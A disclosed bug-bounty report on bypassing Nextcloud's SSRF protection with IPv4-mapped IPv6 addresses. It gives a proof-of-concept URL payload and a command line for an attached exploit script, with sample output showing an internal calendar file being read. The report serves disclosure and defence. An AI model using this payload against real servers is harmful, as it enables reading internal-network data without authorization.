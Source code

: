# SSRF protection bypass

## Report Details
- **Report ID**: 736867
- **URL**: https://hackerone.com/reports/736867
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-11-13T14:07:57.214Z
- **Disclosed**: 2020-03-14T10:10:57.211Z

## Reporter
- **Username**: foobar7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
CVSS
----

High 7.7 [CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:N/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:N/A:N)


Description
-----------

The filter which protects Nextcloud from SSRF can be bypassed using IPv6/IPv4 address embedding.

SSRF protection is for example used in the calendar or dav apps. Successful exploitation of the issue will allow reading of files in the local network with the authorization of the server hosting Nextcloud.

POC
---

The following example can be used to bypass the SSRF filter, where `127.0.0.1` is the server hosting the file:

    http://[0:0:0:0:0:ffff:127.0.0.1]/thefile

The issue can for example be exploited in the calendar app with the attached exploit. Usage:

    python nextcloud_ssrf.py http://192.168.0.105/nextcloud/nextcloud/ admin "[password]" http://[0:0:0:0:0:ffff:127.0.0.1]:80/secret.ics
    BEGIN:VCALENDAR
    VERSION:2.0
    PRODID:-//hacksw/handcal//NONSGML v1.0//EN
    BEGIN:VEVENT
    UID:uid1@example.com
    DTSTAMP:19970714T170000Z
    ORGANIZER;CN=John Doex:MAILTO:john.doe@example.com
    DTSTART:19970714T170000Z
    DTEND:19970715T035959Z
    SUMMARY:Bastille Day Party
    GEO:48.85299;2.36885
    END:VEVENT
    END:VCALENDAR

## Impact

exfiltrate data from the internal network and perform actions in the name of the server in the internal network

## Attachments
- nextcloud_ssrf.py
